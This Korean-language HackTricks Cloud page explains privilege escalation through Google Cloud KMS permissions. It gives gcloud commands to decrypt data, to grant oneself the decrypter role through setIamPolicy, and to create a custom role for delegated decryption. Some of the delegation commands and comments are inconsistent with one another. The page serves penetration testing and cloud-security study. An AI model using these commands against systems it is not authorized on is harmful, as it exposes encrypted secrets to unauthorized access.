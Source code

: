 # GCP - KMS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## KMS

KMS에 대한 정보:

{% content-ref url="../gcp-services/gcp-kms-enum.md" %}
[gcp-kms-enum.md](../gcp-services/gcp-kms-enum.md)
{% endcontent-ref %}

KMS에서는 **권한**이 조직, 폴더 및 프로젝트에서 **상속**될 뿐만 아니라 **키링**에서도 상속된다는 점에 유의하십시오.

### `cloudkms.cryptoKeyVersions.useToDecrypt`

이 권한을 사용하여 **해당 권한이 있는 키로 정보를 복호화**할 수 있습니다.
```bash
gcloud kms decrypt \
--location=[LOCATION] \
--keyring=[KEYRING_NAME] \
--key=[KEY_NAME] \
--version=[KEY_VERSION] \
--ciphertext-file=[ENCRYPTED_FILE_PATH] \
--plaintext-file=[DECRYPTED_FILE_PATH]
```
### `cloudkms.cryptoKeys.setIamPolicy`

이 권한을 가진 공격자는 **자신에게 권한을 부여**하여 키를 사용해 정보를 복호화할 수 있습니다.
```bash
gcloud kms keys add-iam-policy-binding [KEY_NAME] \
--location [LOCATION] \
--keyring [KEYRING_NAME] \
--member [MEMBER] \
--role roles/cloudkms.cryptoKeyDecrypter
```
### `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation`

이 위임이 작동하는 방식에 대한 개념적 분석은 다음과 같습니다:

1. **서비스 계정 A**는 KMS에서 특정 키를 사용하여 직접적으로 복호화할 수 있는 권한을 가지고 있습니다.
2. **서비스 계정 B**는 `useToDecryptViaDelegation` 권한을 부여받습니다. 이를 통해 서비스 계정 A를 대신하여 KMS에 데이터를 복호화 요청할 수 있습니다.

이 **권한의 사용은 복호화 요청이 이루어질 때 KMS 서비스가 권한을 확인하는 방식에 암묵적으로 포함되어 있습니다**.

Google Cloud KMS API(파이썬 또는 다른 언어 사용)를 통해 표준 복호화 요청을 할 때, 서비스는 **요청하는 서비스 계정이 필요한 권한을 가지고 있는지 확인합니다**. 요청이 **`useToDecryptViaDelegation`** 권한을 가진 서비스 계정에 의해 이루어지면, KMS는 이 **계정이 키의 소유자를 대신하여 복호화를 요청할 수 있는지 확인합니다**.

#### 위임 설정하기

1. **사용자 정의 역할 정의**: 사용자 정의 역할을 정의하는 YAML 파일(예: `custom_role.yaml`)을 생성합니다. 이 파일에는 `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation` 권한이 포함되어야 합니다. 이 파일이 어떻게 생겼는지에 대한 예시는 다음과 같습니다:
```yaml
title: "KMS Decryption via Delegation"
description: "Allows decryption via delegation"
stage: "GA"
includedPermissions:
- "cloudkms.cryptoKeyVersions.useToDecryptViaDelegation"
```
2. **gcloud CLI를 사용하여 사용자 정의 역할 만들기**: 다음 명령어를 사용하여 Google Cloud 프로젝트에서 사용자 정의 역할을 만듭니다:

{% code overflow="wrap" %}
```bash
gcloud iam roles create kms_decryptor_via_delegation --project [YOUR_PROJECT_ID] --file custom_role.yaml
```
{% endcode %}

`[YOUR_PROJECT_ID]`를 Google Cloud 프로젝트 ID로 교체하세요.

3. **서비스 계정에 사용자 정의 역할 부여**: 이 권한을 사용할 서비스 계정에 사용자 정의 역할을 할당합니다. 다음 명령어를 사용하세요:
```bash
# Give this permission to the service account to impersonate
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member "serviceAccount:[SERVICE_ACCOUNT_B_EMAIL]" \
--role "projects/[PROJECT_ID]/roles/[CUSTOM_ROLE_ID]"

# Give this permission over the project to be able to impersonate any SA
gcloud projects add-iam-policy-binding [YOUR_PROJECT_ID] \
--member="serviceAccount:[SERVICE_ACCOUNT_EMAIL]" \
--role="projects/[YOUR_PROJECT_ID]/roles/kms_decryptor_via_delegation"
```
`[YOUR_PROJECT_ID]`와 `[SERVICE_ACCOUNT_EMAIL]`을 각각 프로젝트 ID와 서비스 계정의 이메일로 교체하세요.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
